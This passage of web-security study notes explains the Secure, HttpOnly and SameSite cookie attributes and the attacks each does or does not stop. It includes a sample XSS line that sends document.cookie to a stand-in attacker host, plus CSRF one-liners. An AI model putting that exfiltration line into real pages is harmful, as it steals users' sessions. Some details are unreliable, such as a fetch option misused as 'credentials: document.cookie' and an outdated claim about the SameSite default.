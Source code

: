   ```http
  HTTP/1.0 200 OK
  Set-Cookie: them=dark; Max-Age=2592000; Expires=Tue, 08 Mar 2022 14:02:19 GMT;
  ```

- `Secure`:

  - Only sends cookie to server when using **HTTPS scheme**
  - Avoid transmission over an insecure channel. Cannot set cookies with secure flag using HTTP
  - Protects against cookies being stolen by man in the middle attack
  - No protection against:

    - XSS: from `example.com` - `fetch('https://evil.example.com?val=' + document.cookie)`
    - CSRF: from `evil.com` - `fetch('https://example.com', { credentials: document.cookie })`
    - CSRF via HTML injection: `evil.com` - `<a href="https://example.com">click me</a>`

- `HttpOnly`:

  - Forbids JavaScript from accessing cookie
  - Don't let JavaScript read a cookie's value
  - Protects against cookies being stolen by XSS attack
  - No protection against:

    - CSRF: from `evil.com` - `fetch('https://example.com', { credentials: 'include' })`
    - CSRF via HTML injection: `evil.com` - `<a href="https://example.com">click me</a>`

- `SameSite`:

  - Cookie not sent with cross-site requests
  - Limited protection against CSRF
  - `SameSite=None`: Default, always send cookies
  - `SameSite=Lax`: Withhold cookies on sub-resource requests originating from other sites, allow them on top-level requests

    - Limited protection against cookies being used for CSRF attack
    - No protection against:
      - CSRF via HTML injection: `evil.com` --> `<a href="https://example.com">click me</a>`

  - `SameSite=Strict`: Only send cookies if the request originates from the website that set the cookie

    - Complete protection against cookies being used for CSRF attack

How long can cookies last?

- Sites can set `Expires` to a very far-future date and the cookie will last until the user clears it

  > "The Google Blog announced that Google will be shortening the expiration date of its cookies from the year 2038 to a 2-year life cycle."
  >
  > - Search Engine Land (2007)

::: tip NOTE
Cookies are bound to **sites**, not **origins**.
:::

## Session Management
